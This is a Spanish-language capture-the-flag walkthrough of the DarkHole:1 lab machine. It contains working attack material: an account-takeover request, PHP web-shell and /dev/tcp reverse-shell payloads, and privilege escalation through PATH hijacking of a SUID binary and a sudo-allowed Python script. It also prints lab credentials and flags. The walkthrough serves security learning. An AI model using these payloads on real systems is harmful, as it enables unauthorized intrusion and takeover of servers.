# DarkHole:1

Hay que hacer un escaneo de la red para averiguar la ip de la máquina instalada, ya que no no la sabemos
`arp-scan -I eth0 --localnet`
-I eth0 : indica interfaz de red que se usará
--localnet : escanear toda la subred local asociada a la interfaz
`macchanger -l | grep vmware`
Muestra los posibles código OUI por el que empieza la MAC de un dispositivo vmware



192.168.1.213 parece la máquina víctima

`ping -c 2 192.168.1.213 -R`
Vemos la ruta de la traza ICMP





Podemos averiguar el codename de linux (si es ubuntu, trusty, focal) mediante la página launchpad, diciendole que es un OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
o Apache httpd 2.4.41
- Si fueran diferentes podría ser que hay contenedores dentro de la máquina lanzando una versión distinta de linux para apache y para ssh
Vemos que es Focal



Usamos `whatweb http://192.168.1.213`



Gobuster



Creando un usuario vemos que podemos actualizar su información:



Probamos a introducir en detalles el nombre admin (suponiendo que exista) y ponerle una contraseña por ejemplo, pwned desde burp
Esta es la petición para el campo de contraseña



Si suponemos que hay un usuario con id=1, mandaremos la siguiente petición:



Y en la respuesta veremos que se ha actualizado supuestamente:



Intentamos acceder con esas credenciales:



Estamos dentro con id=1 !!

Solo nos deja subir un archivo jpg, png o gif
Metemos una revshell en una imagen con
`exiftool -Comment='<?php echo "<pre>"; system($_GET[‘cmd’]); ?>' img.jpeg`



`exiftool img.jpg`


No ha funcionado

Subo un .phtml y al ejecutarlo consigo la revshell
`<?php exec('bash -c "bash -i >&/dev/tcp/192.168.1.249/4444 0>&1"'); ?>`
**www-data**
ó
el payload sea `<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>`
y en la URL escribir al final
`?cmd=bash -c "bash -i >%26/dev/tcp/192.168.1.249/4444 0>%261"`

## Escalada

En /var/www/html/config encontramos un database.php



Encontramos credenciales de mysql
john:john:darkhole

`mysql -h localhost -u john -p`



En /var/www/darkhole.sql



admin:EWIOEJIOejw@(#I(@djslKJ

Encontramos un archivo ejecutable en /home/john/toto con SUID
con `strings toto` no consigo ver nada, asique me lo traigo y lo intento abrir con ghidra
lo paso a /var/tmp con
`cp toto /var/tmp`
`python3 -m http.server`
Desde kali
`wget http://192.168.1.213:8000/toto`



Vemos que se está ejecutando `system("id")` y que se asigna el setuid a 1001 que es el user *john*
--> Si /toto está ejecutando *id* y no lo hace desde la ruta absoluta, podemos hacer path hijacking (secuestro del path absoluto) y ejecutar el comando

Podremos hacer que el binario toto, ejecute un programa *id* manipulado por nosotros (ya que no usa el del path absoluto, es decir de raíz)

INFO: cuando ejecutas un comando, se busca en la variable $PATH los directorios que haya, si en alguno de esos directorios está la función o comando, la ejecuta



Podremos alterar la variable PATH para que busque en el directorio donde creemos nuestro binario *id* y a ese binario meterle un `bash -p`
`cd /tmp`
`echo 'bash -p' > id`
`chmod +x id`

Le decimos a la variable $PATH que busque primero en /tmp por ejemplo
`export PATH=/tmp:$PATH`
(los : porque los directorios están separados por : y le hacemos un append del contenido que ya tiene $PATH)
Ejecutamos
`{python}./home/john/toto`
**john**
flag1: DarkHole{You_Can_DO_It}

/home/john/password -> root123
Probamos para root pero no funciona, entonces tiene que ser de john
Efectivamente, si hacemos sudo -l nos pide la pswd y poniendola nos muestra:
*(root) /usr/bin/python3 /home/john/file.py*
Manipulamos el archivo file.py a nuestra gana para ser root
--> Indica que `john` puede ejecutar **como root** el binario `/usr/bin/python3` con **ese** argumento `/home/john/file.py`. Es una **única autorización** que incluye el argumento.
Meteremos en file.py
```python
import os; os.system("/bin/sh");
```



`{javascript}sudo /usr/bin/python3 /home/john/file.py`
**root**
